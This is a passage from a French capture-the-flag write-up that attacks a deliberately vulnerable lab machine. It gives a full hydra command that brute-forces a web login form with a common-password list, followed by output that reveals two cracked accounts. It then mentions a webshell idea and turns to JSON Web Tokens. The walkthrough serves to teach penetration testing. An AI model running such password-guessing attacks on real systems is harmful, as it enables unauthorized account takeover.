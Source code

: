 Neuf utilisateurs ont été trouvés sur le site Internet de _Bulldog.social_, autant se focaliser sur eux et essayer de trouver leur mot de passe. Le wiki [SkullSecurity](https://wiki.skullsecurity.org/Passwords) propose un large panel de dictionnaires : le premier à être utilisé, au nom particulièrement évocateur, est ```500-worst-passwords.txt```.

```console
root@blinils:~# hydra -v -V -L users.txt -P 500-worst-passwords.txt -s 80 192.168.56.101 http-post-form "/users/authenticate:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:F=401:H=Cookie: test:H=Content-Type: application/json:H=Accept: application/json, text/plain, */*:H=Accept-Language: en-US,en;q=0.5:H=Accept-Encoding: gzip, deflate:H=Referer: http\://192.168.56.101/login:H=Connection: keep-alive" -w 2

--snip--

[DATA] max 16 tasks per 1 server, overall 16 tasks, 4500 login tries (l:9/p:500), ~282 tries per task

--snip--

[ATTEMPT] target 192.168.56.101 - login "lrberna" - pass "123456" - 1 of 4500 [child 0] (0/0)
[ATTEMPT] target 192.168.56.101 - login "lrberna" - pass "password" - 2 of 4500 [child 1] (0/0)
[ERROR] the target is using HTTP auth, not a web form, received HTTP error code 401. Use module "http-get" instead.
[ATTEMPT] target 192.168.56.101 - login "lrberna" - pass "12345678" - 3 of 4500 [child 2] (0/0)
[ATTEMPT] target 192.168.56.101 - login "lrberna" - pass "1234" - 4 of 4500 [child 3] (0/0)
[ERROR] the target is using HTTP auth, not a web form, received HTTP error code 401. Use module "http-get" instead.

--snip--

[80][http-post-form] host: 192.168.56.101   login: eivijay   password: 12345

--snip--

[80][http-post-form] host: 192.168.56.101   login: mdrudie   password: qwerty

--snip--

[STATUS] attack finished for 192.168.56.101 (waiting for children to complete tests)
1 of 1 target successfully completed, 2 valid passwords found
```

Deux mots de passe ont été trouvés : ceux des comptes de Vijay Wells (eivijay) et de Rudie Ramirez (mdrudie). Néanmoins, une fois connecté sur leur profil respectif, aucune interaction ne semble autorisée : il n'est pas possible de modifier le pseudo, l'adresse e-mail enregistrée ou encore l'avatar. Dommage, la piste de l'upload d'un _webshell_ semblait la plus probable. Poursuivons les investigations sur le site !

## Level up! avec les JSON Web Tokens

L'analyse des échanges avec le proxy [__Burp__](https://portswigger.net/burp/documentation/desktop/getting-started/proxy-setup/browser), entre le navigateur et le serveur permet d'avancer : un [_JSON Web Token_](https://en.wikipedia.org/wiki/JSON_Web_Token) est créé avec les informations de l'utilisateur.
